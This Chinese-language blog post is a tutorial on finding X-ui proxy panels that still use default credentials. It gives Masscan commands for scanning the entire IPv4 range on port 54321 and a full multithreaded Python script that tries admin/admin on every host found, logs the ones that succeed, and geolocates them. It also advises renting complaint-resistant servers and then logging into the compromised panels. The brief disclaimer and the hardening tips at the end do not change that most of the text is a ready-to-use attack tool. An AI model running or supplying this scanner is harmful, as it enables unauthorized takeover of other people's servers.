

# 扫描弱密码的 X-ui 面板

本文由 `High Ping Network` 的小伙伴 GenshinMinecraft 进行编撰，首发于 [本博客](https://blog.highp.ing/)

## 宇宙安全声明
- 本人仅将本文作为技术研究文
- 对于执行扫描的机器的 Abuse 投诉 或 导致服务商停机，本人不做任何负责
- 对于 由于参考了本文的人扫描到的 X-ui 用户，本人不做任何负责

## 前言
`X-ui` 面板作为大众化的 节点面板，其安全性有待考证，但是其默认安装脚本的 `54321` 端口和 `admin` 帐密是一点安全不带

所以就造就了很多 X-ui Scanner 的出现

## How to scan?
前言不想写太多了，开干就行了

### 基本思路
1. 首先，找一台能够发包的机器，带宽 500Mbps 就够，最好抗投诉 (比如Buyvm)
2. 利用扫描工具找出 54321 端口开放的IP
3. 脚本发送 Post admin 帐密到 54321 端口，返回成功便记录

你看，就这么简单，我估计但凡有点网络安全扫描基础的人就可以手搓一个

### Masscan
这一次，我们选用了 Masscan 进行扫描，其相比于 Zmap/Nmap 具备更好的速度

#### 获取服务商 IP Cidr Ranges
这一步要看各种服务商的操作来，比较通用的是第二种方法

##### 去到服务商的官网查找
这一方案仅适用于 大型服务商 (比如 Azure 或 Amazon)，其一般会公示他们所有服务所有的 IP Ranges

比如 Azure 的 IP Ranges 就可以在其[官网下载中心](https://www.microsoft.com/en-us/download/details.aspx?id=56519)找到


下载下来大概是这样的:



先别急，要将 IPv4 的 Ranges 提取出来，我们采用 类Unix系统 下的 Grep 工具

```bash
grep -oP '\b(?:\d{1,3}\.){3}\d{1,3}/\d{1,2}\b' [下载的Json] > [输出的文件]
```

然后，你就会得到一个仅有 IPv4 Cidr Ranges 的 Txt 文本文件

用你喜欢的方式，将其中的**换行**改为**空格**，一般推荐 MT管理器 内置的文本编辑器。只需要寻找 `"\n"` 再替换为 `" "` 就行

留作备用，稍等会用到！

##### 去查找服务商的 ASN 信息
这个方法比较方便，也差不多

可以在 <http://ip.bczs.net/> 输入需要查找的 ASN Number，即可列出该 ASN 下所有的 IP Ranges

也是和上面一样，把它格式化为类似于 `1.1.0.0/1 1.2.0.0/1 ...` 的格式，留所备用

#### 启动 Masscan

安装好 Masscan 与 Libpcap，后者为前者的依赖

这里提供一下 Debian 系列系统的安装方式: 
```bash
apt update
apt install masscan libpcap-dev
```

其他系统自行解决

启动 Masscan，输入如下命令 (建议使用 Screen 进行保活，避免因为 SSH 等原因断连而导致扫描中断，[教程点我](https://blog.highp.ing/p/screen/))

```bash
masscan --exclude 255.255.255.255 -p54321 --max-rate 5000 -oG results.txt [上面获取的 IP Ranges, 用空格隔开]
```

解析一下各部分的意义: 
- `masscan`: Masscan 主命令
- `--exclude 255.255.255.255`: 对于扫描量巨大的扫描，必须要加上该参数
- `-p54321`: 指定端口 54321
- `--max-rate 5000`: 最大扫描速度，5000 已经足够，如果机器性能&网卡强劲可以尝试拉高以增加速度
- `-oG results.txt`: 结果保存路径，建议别更改

然后，你大概会看到

```
Starting masscan 1.3.2 (http://bit.ly/14GZzcT) at 2024-01-27 11:00:04 GMT
Initiating SYN Stealth Scan
Scanning 4294967295 hosts [1 port/host]
rate:  4.94-kpps,  0.63% done, 243:48:38 remaining, found=45503
```

这样就算开始扫描了，其中各部分解释意义
- 第一第二行不用管
- 第三行的 `4294967295` 为扫描的 IP 数量，你应该不难发现我在扫 `0.0.0.0/0` (全网)
- 第四行的 `4.94-kpps` 为扫描速率
- 第四行的 `0.63%` 表示扫描的进度
- 第四行的 `243:48:38` 表示的是剩余时间 (预估) 
- 第四行的 `found=45503` 表示的是已经找到的 IP 数量

等它一会 (看你的 IP 有多少)

就会收获一个 results.txt 文件了，保存好给下一步！

### Python 测活
这是一段 Python3 的代码，将其保存到一个 `scan.py` 文件中

```python
import requests
from concurrent.futures import ThreadPoolExecutor

data = {
    'username': 'admin',
    'password': 'admin'
}

def get_ip_info(ip):
    url = f"http://ip-api.com/json/{ip}?fields=country,regionName,city,isp"
    try:
        response = requests.get(url, timeout=2)
        if response.status_code == 200:
            ip_info = response.json()
            country = ip_info.get('country', 'N/A')
            region = ip_info.get('regionName', 'N/A')
            city = ip_info.get('city', 'N/A')
            isp = ip_info.get('isp', 'N/A')
            return f"{country}, {region}, {city}, ISP: {isp}"
    except requests.exceptions.RequestException:
        pass
    return 'N/A'

def process_ip(ip):
    url = "http://" + ip + ":54321/login"
    try:
        r = requests.post(url, data=data, timeout=2)
        if r.status_code == 200:
            try:
                response_data = r.json()
                if isinstance(response_data, dict) and response_data.get("success"):
                    ip_info = get_ip_info(ip)
                    print(ip + ' Successful (' + ip_info + ')')
                    with open("result.txt", "a") as result:
                        result.write(ip + ' (' + ip_info + ')\n')
                else:
                    print(ip + ' Def')
            except ValueError:
                print("Invalid JSON response from:", url)
        else:
            print(ip + ' Def')
    except requests.exceptions.RequestException:
        try:
            url = "https://" + ip + ":54321/login"
            r = requests.post(url, data=data, timeout=2, verify=False)
            if r.status_code == 200:
                try:
                    response_data = r.json()
                    if isinstance(response_data, dict) and response_data.get("success"):
                        ip_info = get_ip_info(ip)
                        print(ip + ' Successful (' + ip_info + ')')
                        with open("result.txt", "a") as result:
                            result.write(ip + ' (' + ip_info + ')\n')
                    else:
                        print(ip + ' Def')
                except ValueError:
                    print("Invalid JSON response from:", url)
            else:
                print(ip + ' Def')
        except requests.exceptions.RequestException:
            print(ip + ' Def')

if __name__ == "__main__":
    with open("results.txt", "r") as file:
        ips = [line.split("Host: ")[1].split(" ")[0] for line in file if len(line.split("Host: ")) >= 2]

    with ThreadPoolExecutor() as executor:
        executor.map(process_ip, ips)
```

其作用大概为: 
1. 获取 `results.txt` 内 IP
2. 向上面获取到的 IP 的 54321 端口发送 Post 数据
3. 当返回成功时，自动保存在 `result.txt` 文件中，并根据 API 获取 ISP 信息

**PS：本脚本作者并不是我，原作者不想公开名字**

保存好后，安装下 Python 以及依赖 (Debian 系列系统)

```
apt install python3-pip python3 -y
pip install requests
```

随后，运行 `python3 scan.py` 即可开始扫描！

### 出结果咯
一般情况下，结果会输出在 `result.txt` 文件下

当 Python 测活步骤运行完时，可以查看该文件获取到被扫描的 X-ui

格式为: 
```
20.244.7.x (India, Maharashtra, Pune, ISP: Microsoft Corporation)
4.241.173.x (Japan, Tokyo, Tokyo, ISP: Microsoft Corporation)
20.243.2.x (Japan, Tokyo, Tokyo, ISP: Microsoft Corporation)
```

前面是 IP，括号内的为地区及 ISP 信息

随后，你就可以登录 http://IP:54321 看看最终的结果了，被扫描到的 X-ui 帐号密码均为 `admin`

## 后记
请勿将本文教程用于非法扫描及爆破，由于使用者自身意愿导致的财产损失我们不负责！

请将你的 X-ui 面板做好防护！
- 使用第三方 X-ui 修改版
- 开启安全入口
- 设置 Https
- 设置强帐密
